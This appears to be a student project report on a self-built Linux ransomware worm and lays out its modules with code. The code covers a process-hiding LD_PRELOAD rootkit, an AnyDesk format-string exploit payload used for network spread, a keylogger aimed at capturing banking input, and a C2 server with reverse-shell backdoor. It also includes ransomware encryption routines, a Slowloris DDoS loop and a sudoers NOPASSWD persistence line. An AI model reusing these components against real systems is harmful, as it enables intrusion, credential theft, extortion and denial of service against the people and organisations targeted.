\section{Worm Modules}

\subsection{Privilege Escalation}

After our worm has entered the machine, the privilege escalation module (also refered in this document as "privesc" module) is used to escalate the worm's privileges from user to root.

There are a lot of privesc vectors to check on a computer, but for now, the worm only focuses on kernel exploits, specifically two: \textit{CVE-2019-13272} and \textit{CVE-2021-22555}, where the worm embeds C files to exploit these vulnerabilities without network interaction.

We started with these two because they apply to recent kernel versions and are very easy to exploit. In pseudocode the module has the following behavior:

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.8\textwidth]{Images/Diagram.png}
    \caption{Privilege escalation pseudocode diagram.}
    \label{fig:priv_esc_pseudocode}
\end{figure}
\vspace{-0.5cm}

Ideally, later in the future, it would have more kernel exploits to check but, most importantly, more vectors to look for (suid, ssh keys, cron jobs, etc.) because kernel exploits are more likely patched and can leave the infected machine in an unstable state.

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

\subsubsection{CVE-2019-13272}

\textbf{General Information}
\begin{itemize}
    \item \textbf{Score:} 7.8 HIGH 
    \item \textbf{Date:} July 2019
    \item \textbf{CWE:} CWE-269 Improper Privilege Management
\end{itemize}

In Linux kernel before 5.1.17, \textit{ptrace\_link} function in \textit{kernel/ptrace.c} mishandles the recording of the credentials of a process that wants to create a ptrace relationship, which allows local users to obtain root access by leveraging certain scenarios with a parent-child process relationship, where a parent drops privileges and calls \textit{execve} (potentially allowing control by an attacker). One contributing factor is an object lifetime issue (which can also cause panic). Another contributing factor is the incorrect marking of a ptrace relationship as privileged, which is exploitable through, for example, Polkit's pkexec helper with \textit{PTRACE\_TRACEME}.

We chose this vulnerability because it is quite recent, can be applicable to multiple Linux distributions and is very easy to detect and exploit.

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

\subsubsection{CVE-2021-22555}

\textbf{General Information}
\begin{itemize}
    \item \textbf{Score:} 7.8 HIGH 
    \item \textbf{Date:} July 2021
    \item \textbf{CWE:} CWE: CWE-787 Out-of-Bounds Write
\end{itemize}

A heap out-of-bounds write affecting Linux since \textit{v2.6.19-rc1} was discovered in \textit{net/netfilter/x\_tables.c}. This allows an attacker to gain privileges or cause a DoS (via heap memory corruption) through user name space. This vulnerability, like the previous one, is easy to detect and exploit.

For simplicity purposes, the privesc module is also managing persistence. For now, when we get root access, we simply remove the user's password prompt when using the sudo command.

For more information about the unfinished persistence module, see \textit{Section \textbf{\ref{sec:problems_and_future_work}}}.

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

\subsection{Rootkit}

After we have successfully gained root access, we go over to hiding our Python scripts running in the background. For that, a dynamic library (LD\_PRELOAD) is implemented. This library is invoked whenever there's a reference to the \textit{/proc/} directory, specifying the type of program to hide; in our case, Python3 programs.

The code starts by intercepting the \textit{readdir} function using pointers through \textit{dlsym}.

\begin{codesnippet}[H]
    \caption{Intercepting function}
    \label{code:intercepting_function}
\end{codesnippet}
\vspace{-0.75cm}
\begin{lstlisting}
    struct dirent *readdir (DIR *dirp) {
        if (old_readdir == NULL) {
            old_readdir = dlsym(RTLD_NEXT, "readdir");
            if (old_readdir == NULL) 
                error(1, errno, "dlsym");

            fprintf(stderr, "Catched\n");		
        }
    }
\end{lstlisting}

Now, our custom \textit{readdir} function is able to read the incoming directories of the original \textit{readdir} function. For each new entry, it examines \textit{/proc/\textless pid\textgreater} and \textit{/proc/\textless pid\textgreater/comm}. If a "NAME" matching the target (Python3) is found, the entry is skipped, thus, hiding the running program.

\begin{codesnippet}[H]
    \caption{Process examining function}
    \label{code:examining_function}
\end{codesnippet}
\vspace{-0.75cm}
\begin{lstlisting}
    char proc[300];
		
    struct stat sb;
    sprintf(proc, "/proc/%s", direntp->d_name);
    if (stat(proc, &sb) == -1) break;
    
    int proc_inode = sb.st_ino;
    if (direntp->d_ino != proc_inode) {
        break;
    }
    
    sprintf(proc, "/proc/%s/comm", direntp->d_name);
    FILE *comm;
    comm = fopen(proc, "r");
    if (comm == NULL) break;
\end{lstlisting}

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

\subsection{Network Propagation}
\label{sec:network_propagation}

The next step on our agenda is to infect other machines on the victim network. First of all, we are dynamically obtaining the IP address of the network of the machine on which our worm is currently running and from which we want to spread further across the network.

\newpage
\begin{codesnippet}[H]
    \caption{Network sniffer}
    \label{code:network_sniffer}
\end{codesnippet}
\vspace{-0.75cm}
\begin{lstlisting}
    def get_interface():
        gateways = ni.gateways()
        default_gateway = gateways['default'][ni.AF_INET][1]
        interface = gateways['default'][ni.AF_INET][1]
        return interface

    def get_network(interface):
        addr = ni.ifaddresses(interface)[ni.AF_INET][0]
        network = ipaddress.IPv4Network((addr['addr'], addr['netmask']), strict=False)
        return network

    def net_scan(network):
        try:
            print('Scanning Network')
            # Run nmap and pipe its output to awk
            command = f'nmap -oG - {network} | awk \'/Up$/{{print $2}}\''
            output = subprocess.check_output(command, shell=True, universal_newlines=True)

            # Split the output by newlines to get a list of IPs
            ip_addresses = output.strip().split('\n')
            print('Done!', len(ip_addresses), 'Hosts are up')
            return ip_addresses
        except subprocess.CalledProcessError as e:
            return []
\end{lstlisting}

We get the interface first, and from there we get the network in which the victim is. From there, we scan the network with nmap for active hosts. We further brute force all the active hosts in the victims network on Anydesk Port 5001 with a crafted UDP packet.

\begin{codesnippet}[H]
    \caption{UDP packet crafting}
    \label{code:packet_crafting}
\end{codesnippet}
\vspace{-0.75cm}
\begin{lstlisting}
    try:
        interface = get_interface()
        network = get_network(interface)
        port = 50001
        neighbors = net_scan(network)
        for ip in neighbors:
            print(f'IP: {ip}')
            p = gen_discover_packet (4919, 1, b'\x85\xfe%1$*1$x%18x%165$ln' + shellcode, b'\x85\xfe%18472249x%93$ln', 'ad', 'main')
            s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
            s.sendto(p, (ip, port))
            s.close()
\end{lstlisting}

For this module, we used CVE-2020-13160, which exploits a format string vulnerability in AnyDesks Version 5.5.2. The "discovery packet" in AnyDesk refers to the network packet sent by the software to discover other AnyDesk clients on the same network. This packet contains specific information that helps AnyDesk identify and communicate with other instances of itself within a local network environment.

Crafting this packet in a specific way, we were able to execute arbitrary code because, in the source code of AnyDesk, their use of the function \textit{vsnprintf} is vulnerably implemented. In this case, we send the malformed packet, whose input is then incorrectly processed and leads to the arbitrary code execution.

\textit{Vsnprintf} is a function in C used for formatted output conversion. It works similarly to printf, but instead of sending output to the console, it stores the output in a string (character array).

When a format specifier like \textit{\%x} in a \textit{printf} statement lacks a corresponding argument, the function looks for the missing value on the program's call stack. Each \textit{\%x} tries to print the next item on the stack as a hexadecimal value. If the stack contains sensitive data or invalid addresses, this can lead to security breaches or crashes. The function blindly accesses whatever data is at those memory locations.

Other specifiers, like the \textit{\%n} specifier in a format string, for example, write the count of characters that have been printed up to that point into a variable. In a typical use, a statement like \textit{printf("Hello\%n", \&count)} would store the number of characters printed before \textit{\%n} into a count. In a format string attack, an attacker can use \textit{\%n} to write values into arbitrary memory locations if they can control the format string and know the memory layout of the program.

In the case of our chosen exploit, the format string looks like:

\begin{codesnippet}[H]
    \caption{Format string}
    \label{code:format_string}
\end{codesnippet}
\vspace{-0.75cm}
\begin{lstlisting}
    p = gen_discover_packet(4919, 1, b'\x85\xfe%1$*1$x%18x%165$ln' + shellcode, b'\x85\xfe%18472249x%93$ln', 'ad', 'main')
\end{lstlisting}

This crafted string takes advantage of the specific vulnerabilities in the \textit{vsnprintf} implementation discovered in CVE-2020-13160, successfully exploiting them.

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

\subsection{Keylogger}
\label{sec:keylogger}

After we successfully spread through the network, the keylogger is started automatically. It consists of two listeners that run in parallel with the main program. One records the keyboard key presses, and the other records the mouse button presses. Whenever any of these listeners detect a press, it checks the active window of the computer, which is the window the user is focusing on. This way, it is easier for the attackers to analyze the log and get rid of useless parts like YouTube searches or the presses when playing a videogame.

\begin{codesnippet}[H]
    \caption{Keyboard and mouse listeners}
    \label{code:keyboard_mouse_listeners}
\end{codesnippet}
\vspace{-0.75cm}
\begin{lstlisting}
    # Event raised whenever a key is pressed
    def on_key_press(self, key): 
        self.get_active_window()
        self.previous_action = 'Key'

        # Avoid repeated prints when key is pressed for a long time
        if key in self.pressed_keys: return
        self.pressed_keys.add(key)

        try: 
            [...] # Check capital letters

            with open(self.keylog_txt_name, 'a') as file: file.write(f"{key.char}")
        
        [...] # Handle special keys
    

    # Event raised whenever a mouse button is pressed or released
    def on_mouse_click(self, x, y, button, pressed):
        self.get_active_window()

        # Do nothing if the button is being released
        if not pressed: return

        with open(self.keylog_txt_name, 'a') as file: 
            file.write(f"Mouse {str(button).split('.')[-1].lower()} click {'pressed' if pressed else 'released'} at ({x}, {y})\n")
        self.previous_action = 'Mouse'
\end{lstlisting}

The keyboard listener is able to differentiate between capital letters and detect special keys. The mouse listener is able to detect the three button presses and the specific coordinates of the screen where the user has pressed. All these presses are saved in a keylog.txt file, which will be sent to the attacker's server once it is requested by the attackers. The best feature of the active window detection is that it is also able to differentiate the specific tab the user is on in the browser. For the special keys, whenever they are pressed, they are printed in capital letters, while when they are released, they are printed in lower letters. This way, it is easier for the attackers to interpret the log.

\begin{codesnippet}[H]
    \caption{Get active window function}
    \label{code:get_active_window}
\end{codesnippet}
\vspace{-0.75cm}
\begin{lstlisting}
    # Returns the name of the current active window
    def get_active_window(self):
        try: current_active_window = self.ewmh.getWmName(self.ewmh.getActiveWindow())
        except: return
        if current_active_window == self.previous_active_window: return

        with open(self.keylog_txt_name, 'a') as file:
            if self.previous_action == 'Key': file.write('\n')
            file.write(f"\n########## {str(current_active_window)[2:-1]} ##########\n")
        self.previous_action = 'Window'

        self.previous_active_window = current_active_window
        return current_active_window
\end{lstlisting}

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.8\textwidth]{Images/Keylogger.png}
    \caption{Keylogger output.}
    \label{fig:keylogger}
\end{figure}
\vspace{-0.5cm}

As can be seen in the \textit{\Cref{fig:keylogger}}, the attackers would be able to notice that the user is entering their bank account in the Mozilla browser. Not that special keys are written in capital letters when pressed, but in lower letters when released. This is made to allow attackers to know the shortcuts used, like \textit{"Ctrl + C"}, \textit{"Win + Tab"}, etc.

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

\subsection{Server Management}
\label{sec:server_management}

Whenever a new victim is infected, it will automatically ping the attackers' server (Flask server). Then, it will create a specific instructions file for these machines, identified by the IP of the victim inside the NAT network. Every 5 seconds, each victim will ping the server, requesting the instruction in their unique file. After receiving an instruction, the victim will perform it (DDoS a web server, open a backdoor, send the \textit{keylog.txt}, encrypt files, etc.). For now, instructions are manually written in the \textit{.txt} files by the attackers.

The server will have the private key used to decrypt all the files, which will be sent to the victim after receiving the Bitcoin payment. It will also have the zip file containing the worm, which is sent to the new infected users (both through video fishing and network propagation) and the real \textit{cutecats.mp4} video (not the \textit{cutecats.desktop}). 

All the possible instructions that can be written in the files are:

\begin{itemize}
    \item \textbf{keylogger send\_log:} Sends the log and resets it.
    \item \textbf{keylogger reset\_log:} Erases all the content of the log file.
    \item \textbf{backdoor \textless hacker\_ip\textgreater \textless netcat\_port\textgreater:} Tell the victim where to connect the reverse shell. Attacker must open the backdoor (listener) on attacker's machine \textit{"nc -lvnp \textless port\textgreater"}.
    \item \textbf{ransomware encrypt:} Let the ransomware encrypt everything.
    \item \textbf{ransomware decrypt:} Let the ransomware decrypt everything.
    \item \textbf{ddos \textless ip\textgreater \textless port\textgreater:} Starts DDoSing the specified \textit{server:ip}.
\end{itemize}

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

\subsection{Backdoor}
\label{sec:backdoor}

The backdoor module simply consists of a reverse shell connecting to a Netcat listener. When the worm is in the instruction module, it waits for a file to be filled with instructions on our C2 server. If the server sends the following instruction:

Then the backdoor module will be invoked and will do the following:
\begin{enumerate}[label=\textbf{\arabic*.}]
    \item Create a TCP socket.
    \item Connect the socket to the specified remote IP and remote port.
    \item Send a confirmation message to the remote server that the connection has been established.
    \item Start an infinite loop to listen for commands from the remote server:
    \begin{enumerate}
        \item Decode the received bytes into a string.
        \item If the received bytes are \textit{'exit'}, stop the loop.
        \item If not, execute the command in a new subprocess.
        \item Send to the socket the subprocess output.
    \end{enumerate}
    \item Finally, close the socket, and so the connection
\end{enumerate}

Before writing the backdoor command in the instructions file, the hacker must start a netcat listener on a specific port to be able to catch the victim connection, as specified in \textit{Section \textbf{\ref{sec:server_management}}}.

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

\subsection{Ransomware}
\label{sec:ransomware}

The ransomware takes the path we give it as an argument and traverses through all its folders and subfolders recursively. If it hits a file on its way, it will encrypt it.

Encryption works by creating an RSA key pair. The public key is used to encrypt a session key that is generated at the beginning. This session key is used to encrypt each byte of the regular file.

\begin{codesnippet}[H]
    \caption{Encryption function}
    \label{code:encryption_function}
\end{codesnippet}
\vspace{-0.75cm}
\begin{lstlisting}
    def encrypt(dataFile, publicKey):

        [...]

        # Create public key object
        key = RSA.import_key(publicKey)
        sessionKey = os.urandom(16)

        # Encrypt the session key with the public key
        cipher = PKCS1_OAEP.new(key)
        encryptedSessionKey = cipher.encrypt(sessionKey)

        [...]

        # Save the encrypted data to file
        encryptedFile = dataFile + '.GR0up7'
        with open(encryptedFile, 'wb') as f:
            [f.write(x) for x in (encryptedSessionKey, cipher.nonce, tag, ciphertext)]
        os.remove(dataFile)
\end{lstlisting}

To decrypt the file, we load the private key and use it to decrypt the session key, which is stored together with the ciphertext in the encrypted file that we want to decrypt.

\begin{codesnippet}[H]
    \caption{Decryption function}
    \label{code:decryption_function}
\end{codesnippet}
\vspace{-0.75cm}
\begin{lstlisting}
    def decrypt(dataFile, privateKeyFile):

        # Read private key from file
        with open(privateKeyFile, 'rb') as f:
            privateKey = f.read()
            # Create private key object
            key = RSA.import_key(privateKey)

        # Read data from file
        with open(dataFile, 'rb') as f:
            # Read the session key
            encryptedSessionKey, nonce, tag, ciphertext = [ f.read(x) for x in (key.size_in_bytes(), 16, 16, -1) ]

        # Decrypt the session key
        cipher = PKCS1_OAEP.new(key)
        sessionKey = cipher.decrypt(encryptedSessionKey)

        # Decrypt the data with the session key
        cipher = AES.new(sessionKey, AES.MODE_EAX, nonce)
        data = cipher.decrypt_and_verify(ciphertext, tag)

        [...]
\end{lstlisting}

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

\subsection{DDoS}
\label{sec:ddos}

The attack involves sending partial HTTP requests to the targeted web server, with none ever being completed. As a result, the targeted server opens more connections, assuming the requests will be completed.

Eventually, the server's maximum allotted connection sockets are consumed one-by-one until fully exhausted, thus blocking any legitimate connection attempts. High-volume Web sites may take longer for Slowloris to completely take over, but ultimately, the DDoS attack will result in all legitimate requests being denied.

Slowloris DDoS attacks can be mitigated by following the following steps:
\begin{itemize}
    \item Increase the maximum number of clients the Web server will allow.
    \item Limit the number of connections a single IP address is allowed to attempt.
    \item Place restrictions on the minimum transfer speed at which a connection is allowed.
    \item Limit the amount of time a client is permitted to stay connected.
\end{itemize}

What happens in our code below is that we initialize a single socket and then send a GET request to a random URL on the server. Afterwards, we also send the regular headers to the server that were initialized at the beginning of the code.

\begin{codesnippet}[H]
    \caption{Socket initialization}
    \label{code:socket_initialization}
\end{codesnippet}
\vspace{-0.75cm}
\begin{lstlisting}
    list_of_sockets = []

    regular_headers = [
        "User-agent: Mozilla/5.0 (Windows NT 6.3; rv:36.0) Gecko/1234567",
        "Accept-language: en-US,en,q=0.5"
    ]

    def init_socket(ip, port):
        sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        sock.connect((ip, int(port)))

        sock.send("GET /?{} HTTP/1.1\r\n".format(random.randint(0,4000)).encode("utf-8"))

        for header in regular_headers:
            sock.send("{}\r\n".format(header).encode('utf-8'))

        return sock
\end{lstlisting}

We add this socket to a list of other sockets. We loop over this list and let each send a random header. In case of an error in the connection of the socket, we will remove it from the list, but if the list gets smaller than 2000, we will initialize a new socket with the function of the code above to keep the size of the list.

\begin{codesnippet}[H]
    \caption{Socket list management}
    \label{code:socket_list_management}
\end{codesnippet}
\vspace{-0.75cm}
\begin{lstlisting}
    for s in list(list_of_sockets):
        try:
            s.send("X-a: {}\r\n".format(random.randint(1, 5000)).encode('utf-8'))
        except socket.error:
            list_of_sockets.remove(s)
\end{lstlisting}

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

\section{Problems, Limitations and Future Work}
\label{sec:problems_and_future_work}

While working on this project, we, of course, encountered a few issues. Moreover, we want to address the limitations of our work and give an overview of possible future work.

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

\subsection{Problems and Limitations}
\label{sec:problems_and_limitations}

After we had found a suitable Linux distribution for our entry point, one of our problems was finding further vulnerabilities for exactly this version in order to implement our planned modules. This turned out to be an increased research effort and increased trial and error, which cost us some time on the project.

Another problem that cost us time was finding out why our keylogger was not working in connection with the network propagation. It turned out that, due to the virtual environment we were working in, the \textit{pynput} library was not able to automatically detect a mouse and keyboard on other infected machines. The first infected machine claimed these resources of the host system for itself and resulted in this problem. In a real scenario, however, our code would work as intended.

Creating a suitable rootkit was also a major problem for us, as the normal functioning of the system was impaired by the preloading of custom libraries. When trying to anchor the rootkit persistently in the system, there were also situations where we were no longer able to execute simple commands such as \textit{"ls"} or \textit{"cd"} due to incorrect code.

Combining all the modules, testing them, and ensuring that they function correctly based on all dependencies was also a pain point. Integrating the individually functioning modules into a well-presentable, constantly functioning environment required increased administration.

Correct decryption after encryption with a large amount of data proved to be a challenge, as our GUI is not yet stable enough in its current state and caused crashes. Troubleshooting is still ongoing here.

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

\subsection{Future Work}
\label{sec:future_work}

In the future, we would like to manage to be less conspicuous. For example, our malware data is currently hidden in the home directory. It is also desirable for us to cover our tracks after the attack. This includes deleting files and system logs, for example.

While our system currently works well with only a few victims, we would need to implement additional stability to ensure stability even when infecting a larger number of victims. We also need to work on the stability of our propagation and further investigate and eliminate the crashes that our GUI causes when decrypting a large amount of data.

Another thing we can work on in the future is our currently unfinished persistence module. Persistence refers to the capability of a threat, such as malware or a hacker, to maintain access to a compromised system despite reboots, changes in credentials, and other efforts to disrupt their presence.

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

\subsubsection{Current State}
\label{sec:current_state}

For now, the persistence is done by the privesc module after gaining root access, but in the future, it has to be improved and done in a specific module.

The persistence we have right now is as follows:

When the privesc module obtains root access, it modifies the file \textit{/etc/sudoers} to remove the password prompt from the current user when using sudo.

The \textit{/etc/sudoers} is a configuration file for the sudo binary. It is read by sudo to know which user can run which commands with sudo permissions and if the user must be prompted for its password.

Because we don't know the victim's password and the worm is fully automated, we need to remove the password prompt to be able to run sudo commands automatically. To do so, we add the following line at the end of the \textit{/etc/sudoers} file:

\begin{codesnippet}[H]
    \caption{Sudoers file modification}
    \label{code:sudoers_file_modification}
\end{codesnippet}
\vspace{-0.75cm}
\begin{lstlisting}
    <user> ALL=(ALL) NOPASSWD: ALL
\end{lstlisting}

It means the user \textless user\textgreater can execute all commands as sudo and will not be prompted for its password for all commands.

So instead of:

\begin{codesnippet}[H]
    \caption{Sudo commands before privilege escalation}
    \label{code:sudo_commands_before_privilege_escalation}
\end{codesnippet}
\vspace{-0.75cm}
\begin{lstlisting}
    user@computer:~$ sudo echo test
    [sudo] password for user:
    test
\end{lstlisting}

We have:

\begin{codesnippet}[H]
    \caption{Sudo commands after privilege escalation}
    \label{code:sudo_commands_after_privilege_escalation}
\end{codesnippet}
\vspace{-0.75cm}
\begin{lstlisting}
    user@computer:~$ sudo echo test
    test
\end{lstlisting}

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

\subsubsection{Goal State}
\label{sec:goal_state}

In the future, persistence should be done like this:

We need to be sure that the worm will always be running, even if the user deletes the files or reboots the machine. For that, we need to create a service that runs on startup. The module has to also create a service that will be executed every time the machine is started The service is a bash script looking for different things:

\begin{itemize}
    \item If the machine is detected as infected:
    \begin{itemize}
        \item If the worm files are detected on the file system:
        \begin{itemize}
            \item Run the worm with the instructions module.
        \end{itemize}
        \item Else:
        \begin{itemize}
            \item Download the worm again from the server.
            \item Run the worm with the privesc module.
        \end{itemize}
    \end{itemize}
    \item Else:
    \begin{itemize}
        \item Download the worm again from the server.
        \item Run the worm with the privesc module.
    \end{itemize}
\end{itemize}

Services are created using the systemd command. Then they can be started, restarted, or even checked using the \textit{systemctl} command.

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

\section{Conclusion}
\label{sec:conclusion}

Overall, it can be said that despite problems and some possibilities for future improvement, we have already developed stable malware that successfully penetrates a system, obtains admin rights, spreads automatically over the network, and is not visible in the processes. Via our C2 server, we are successfully able to transmit user input to us, connect to the victims at any time via a backdoor, encrypt their data, and take down servers in the network.

We were able to stay pretty close to the initial scenario. However, we had to use different exploits at the network propagation point and at the entry point than originally planned, as the planned ones turned out to not be possible for our chosen Linux distribution.

We can all agree that our work as a group was very successful and that we were all equally invested in this project.

\section{Repository}
\label{sec:repository}

The GitHub repository is public and can be accessed at the following link:

\url{https://github.com/blueh0rse/ransom-worm}